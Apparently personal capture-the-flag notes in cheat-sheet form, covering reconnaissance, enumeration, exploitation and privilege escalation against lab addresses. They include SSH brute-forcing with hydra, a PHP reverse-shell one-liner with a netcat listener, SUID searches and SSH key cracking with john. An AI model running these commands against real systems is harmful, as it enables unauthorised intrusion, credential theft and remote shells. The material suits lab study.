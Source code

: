## Reconnaissance
- command, tool
  - whois
  - nslookup
  - theHarvester
  - Sublist3r

## Enumeration
- nmap -sV -O <target>
- gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http
- smbclient //<target>/anonymous -N
- ftp -n <target>
- command, tool
  - nmap
  - gobuster、nikto
  - nikto
  - wpscan
  - CyberChef


## Exploitation
- hydra -l user -P /usr/share/wordlists/rockyou.txt -f -o found.txt ssh://<target>
- searchsploit vsftpd 2.3.4
- searchsploit -x exploit/unix/remote/17491.txt
- nc -lvnp 12345
- php -r '$sock=fsockopen("<target>",12345);exec("/bin/sh -i <&3 >&3 2>&3");'
- command, tool
  - Metasploit Framework
  - BurpSuite
  - searchsploit,exploit-db
  - hydra


## Privilege Escalation
- id
- python3 -c 'import pty; pty.spawn("/bin/bash")’
- sudo -l
- find / -group $(id -gn) -perm -g=x -type f 2>/dev/null
- find / -user root -perm -u=s -type f 2>/dev/null
- python3 ssh2john.py id_rsa > id_rsa_hash.txt
- john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
- command, tool
  - linpeas
  - pspy
  - sudo -l
  - GTFOBins
  - searchsploit,exploit-db


## ローカルのメモ
- sudo nmap -sV -O 10.10.251.27
- gobuster dir -u http://10.10.251.27 -w common.txt http
- lftp -u anonymous 10.10.104.75
- hydra -l jake -P rockyou.txt -f -o found.txt ssh://10.10.104.75
- ssh jake@10.10.104.75